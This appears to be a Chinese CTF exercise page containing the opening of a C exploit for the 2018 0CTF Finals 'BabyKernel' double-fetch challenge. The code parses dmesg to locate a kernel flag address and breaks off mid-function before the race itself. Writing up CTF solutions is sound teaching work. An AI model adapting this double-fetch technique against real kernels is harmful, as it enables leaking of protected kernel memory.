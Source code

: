 ### 习题2018-0CTF-Finals-BabyKernel 

* Double fetch 

```c
#include <stdio.h>
#include <stdlib.h>
#include <pthread.h>
#include <sys/ioctl.h>

struct user_flag
{
	char *flag;
	int len;
};
struct user_flag* buf;

int fd;
char *tmp;
int done = 0;
unsigned long long flag_addr;

unsigned long long getaddr()
{
	FILE *stream;
    char *line = NULL;
   	size_t len = 0;
	char *flag = NULL;
	unsigned long long result = 0;

	system("dmesg > /tmp/text");
	stream = fopen("/tmp/text", "r");
	if (stream == NULL)
    	exit(EXIT_FAILURE);
	while (getline(&line, &len, stream) != -1) 
	{
		flag = strstr(line,"Your flag is at");
		if(flag)
		{
			sscanf(flag,"Your flag is at %llx!",&result);
			break;
		}

	}
   free(line);
   fclose(stream);
   return result;
}

char *getflag()
{
	FILE *stream;
    char *line = NULL;
   	size_t len = 0;
   	char* result;

	system("dmesg > /tmp/text");
	stream = fopen("/tmp/text", "r");
	if (stream == NULL)
    	exit(EXIT_FAILURE);
	while (getline(&line, &len, stream) != -1) 
	{
		result = strstr(line,"So here is it");
		if(result) break;
```